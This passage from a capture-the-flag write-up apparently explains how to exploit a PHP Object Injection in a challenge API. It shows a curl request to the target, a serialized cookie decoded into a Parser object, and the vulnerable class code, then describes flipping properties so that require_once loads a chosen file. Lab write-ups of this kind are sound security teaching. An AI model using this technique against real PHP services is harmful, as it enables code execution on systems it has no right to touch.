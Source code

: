this PHP code is vulnerable to [PHP Object Injection (POI)](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) because it unserializes user input without validation. we can use this to execute arbitrary PHP code.

## exploiting the POI vulnerability

![old api homepage](images/shutlock2025_local-terror_old_api_page.png)

we can make a call to the API to see how the serialization works:

```bash
curl -v 'http://57.128.112.118:11149/api/old/index-old-do-not-use-please.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'inputText=hello+world&version=v1.0'
```

let's read the `parser` cookie returned by the server:

```
Tzo2OiJQYXJzZXIiOjQ6e3M6NDoidGV4dCI7czoxMToiaGVsbG8gd29ybGQiO3M6NToiZGVidWciO2I6MDtzOjc6InZlcnNpb24iO3M6NDoidjEuMCI7czoxMToiYmV0dGVycHJpbnQiO2I6MDt9
```

if we decode it, it gives us the following PHP object:

```
O:6:"Parser":4:{s:4:"text";s:11:"hello world";s:5:"debug";b:0;s:7:"version";s:4:"v1.0";s:11:"betterprint";b:0;}
```

let's look back at the functions in the `Parser` class:

```php
function evaluate(){
  if ($this->debug && $this->version === 'v1.0') {
    require_once($this);
  }

  echo $this;
}

function __toString() {
  if ($this->betterprint) {
    return $this->text;
  }

  return $this->version;
}
```

- in `evaluate()`, `$this` is implicitly converted to a string, so it calls `__toString()`
- in `__toString()`, if `$this->betterprint` is true, it returns `$this->text`

so we could `require_once` whatever we want by setting the `debug` and `betterprint` properties to `true` and the `version` to `v1.0`.

to do so, we can simply swap `0` to `1` in the `debug` and `betterprint` properties, we're already at version `v1.0`, so we can keep it as is.
